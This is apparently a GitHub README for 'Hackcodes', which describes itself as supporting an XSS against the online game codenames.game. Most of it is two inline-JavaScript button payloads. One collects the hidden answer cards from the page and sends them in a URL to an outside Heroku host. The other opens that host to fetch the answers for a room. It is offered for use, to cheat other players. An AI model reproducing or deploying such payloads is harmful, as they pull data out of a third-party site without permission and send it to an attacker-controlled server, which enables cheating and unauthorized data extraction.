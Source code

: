 # Hackcodes

This is a website created to support an XSS for https://codenames.game/.

## Script

```<button onclick="javascript:((function() {var a = document.querySelectorAll('.blue');var arr = [];for(b of a) { if(b.classList.contains('cardImage')) {var c = b.nextElementSibling;arr.push(c.innerText);};};window.open(`https:\/\/hackcodes.herokuapp.com/codenamesadd/${window.location.pathname.replace('/room/', '')}?answers=${arr.join(',')}`,'_blank');})())">Create Object (HOST)</button>
<button onclick="javascript:((function() {window.open(`https:\/\/hackcodes.herokuapp.com/codenames/${window.location.pathname.replace('/room/', '')}`,'_blank');})())">Get answers (OPERADOR)</button>```

Please be aware that you can change the class from .blue to .red or anything if needed.

---

zF4ke#8556
